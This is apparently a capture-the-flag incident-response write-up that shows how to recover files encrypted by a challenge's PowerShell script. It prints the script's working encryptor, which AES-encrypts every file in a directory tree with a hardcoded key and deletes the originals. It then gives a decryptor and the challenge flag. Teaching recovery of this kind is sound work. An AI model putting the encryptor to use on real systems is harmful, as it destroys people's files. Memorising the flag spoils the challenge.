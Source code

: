 # IR #5
> Can you please recover our files?

## About the Challenge
We need to recover the files that was encrypted in the `Desktop`

## How to Solve?
If you see the powershell script that we have obfuscated before, you will see there is a function to encrypt the files

```powershell
function encryptFiles{
	Param(
		[Parameter(Mandatory=${true}, position=0)]
		[string] $baseDirectory
	)
	foreach($File in (Get-ChildItem $baseDirectory -Recurse -File)){
		if ($File.extension -ne ".enc"){
			$DestinationFile = $File.FullName + ".enc"
			$FileStreamReader = New-Object System.IO.FileStream($File.FullName, [System.IO.FileMode]::Open)
			$FileStreamWriter = New-Object System.IO.FileStream($DestinationFile, [System.IO.FileMode]::Create)
			$cipher = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
			$cipher.key = [System.Text.Encoding]::UTF8.GetBytes("7h3_k3y_70_unl0ck_4ll_7h3_f1l35!")
			$cipher.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
			$cipher.GenerateIV()
			$FileStreamWriter.Write([System.BitConverter]::GetBytes($cipher.IV.Length), 0, 4)
			$FileStreamWriter.Write($cipher.IV, 0, $cipher.IV.Length)
			$Transform = $cipher.CreateEncryptor()
			$CryptoStream = New-Object System.Security.Cryptography.CryptoStream($FileStreamWriter, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write)
			$FileStreamReader.CopyTo($CryptoStream)
			$CryptoStream.FlushFinalBlock()
			$CryptoStream.Close()
			$FileStreamReader.Close()
			$FileStreamWriter.Close()
			Remove-Item -LiteralPath $File.FullName
		}
	}
}
```

This function will encrypt the files with AES encryption and then writes the encrypted contents to a new file with the `.enc` extension. The original file is then deleted. To solve this problem, we need to create another powershell function to decrypt the file:

```powershell
function decryptFiles {
    Param(
        [Parameter(Mandatory=$true, Position=0)]
        [string] $baseDirectory
    )
    
    foreach($File in (Get-ChildItem $baseDirectory -Recurse -File -Filter "*.enc")){
        $DestinationFile = $File.FullName -replace "\.enc$"
        $FileStreamReader = New-Object System.IO.FileStream($File.FullName, [System.IO.FileMode]::Open)
        $FileStreamWriter = New-Object System.IO.FileStream($DestinationFile, [System.IO.FileMode]::Create)
        
        $cipher = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
        $cipher.Key = [System.Text.Encoding]::UTF8.GetBytes("7h3_k3y_70_unl0ck_4ll_7h3_f1l35!")
        $cipher.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
        
        # Read the IV length from the encrypted file
        $ivLengthBytes = New-Object byte[](4)
        $FileStreamReader.Read($ivLengthBytes, 0, 4)
        $ivLength = [System.BitConverter]::ToInt32($ivLengthBytes, 0)
        
        # Read the IV from the encrypted file
        $ivBytes = New-Object byte[]($ivLength)
        $FileStreamReader.Read($ivBytes, 0, $ivLength)
        
        # Set the IV for the cipher
        $cipher.IV = $ivBytes
        
        $Transform = $cipher.CreateDecryptor()
        $CryptoStream = New-Object System.Security.Cryptography.CryptoStream($FileStreamWriter, $Transform, [System.Security.Cryptography.CryptoStreamMode]::Write)
        
        $FileStreamReader.CopyTo($CryptoStream)
        
        $CryptoStream.FlushFinalBlock()
        $CryptoStream.Close()
        $FileStreamReader.Close()
        $FileStreamWriter.Close()
        
        Remove-Item -LiteralPath $File.FullName
    }
}
```

To use this function, you can call it like this:

```
decryptFiles -baseDirectory "C:\path\to\files"
```

So, I decrypt all the encrypted files in `Desktop` and then check the file one by one to obtain the flag.

![decrypt](images/decrypt.png)

The flag was located in `Nextgen Innovation.pdf` file

![flag](images/flag.png)

```
flag{593f1527d6b3b9e7da9bdc431772d32f}
```